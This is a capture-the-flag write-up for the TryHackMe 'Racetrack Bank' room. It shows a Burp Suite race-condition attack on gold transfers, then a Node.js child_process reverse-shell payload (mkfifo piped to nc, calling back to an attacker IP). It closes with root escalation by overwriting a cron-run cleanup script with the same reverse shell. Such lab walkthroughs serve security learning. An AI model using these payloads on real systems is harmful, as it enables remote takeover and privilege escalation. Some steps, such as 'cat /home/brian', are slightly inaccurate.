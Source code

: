 # [Racetrack Bank](https://tryhackme.com/room/racetrackbank)

## It's time for another heist

# Flags

## Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

### User flag

_What does the name of the bank hint at?_

1. Perform network reconnaissance to identify available services

```bash
nmap -sV IP
```

[SCREEN01]

2. Navigate to `http://<TARGET_IP>` and register a new user account. After logging in, examine the application functionality, particularly the gold transfer mechanism and premium account purchase option at `http://<TARGET_IP>/purchase.html`

3. Create a second user account to facilitate the race condition attack
   - Configure Burp Suite as a proxy and intercept traffic
   - Initiate a gold transfer from the first account to the second account
   - Capture the POST request containing the transfer parameters
   - Create a second POST request to transfer gold back from the second account to the first account
   - Group both requests in Burp Suite's Repeater tool
   - Execute "Send group (parallel)" repeatedly while gradually increasing the transfer amounts

This race condition occurs when the application fails to properly synchronize balance checks and updates, allowing multiple transactions to process simultaneously before balance validation completes.

[SCREEN02]

4. After accumulating sufficient gold through the race condition, purchase the premium account upgrade. This unlocks access to `http://<TARGET_IP>/premiumfeatures.html`.

[SCREEN03]

5. Prepare a netcat listener on the attacking machine

```bash
nc -lvnp 4444
```

6. The premium features page contains a Node.js code execution vulnerability. Input the following payload to establish a reverse shell: `require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f')`

7. Once the reverse shell connection is established, navigate to the user directory and retrieve the user flag

```bash
cat /home/brian
```

[SCREEN04]

---

### Root flag

_Experiment and be creative._

1. After gaining initial access as the `brian` user, conduct enumeration to identify privilege escalation vectors
   - Investigation reveals a cleanup directory in `/home/brian/cleanup` containing automated scripts

```bash
find / -perm -4000 2>/dev/null
crontab -l
ls -la /home/brian
```

2. Set up a new netcat listener for the privilege escalation

```bash
nc -lvnp 5555
```

3. The system runs periodic cleanup tasks that execute scripts from the cleanup directory. Exploit this by replacing the existing cleanup script

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cd /home/brian/cleanup
rm -f cleanupscript.sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 5555 >/tmp/f' > cleanupscript.sh
chmod +x cleanupscript.sh
```

4. Wait for the cron job to execute the modified script

```bash
whoami
# Confirms root access
ls /root
cat /root/root.txt
```

[SCREEN05]
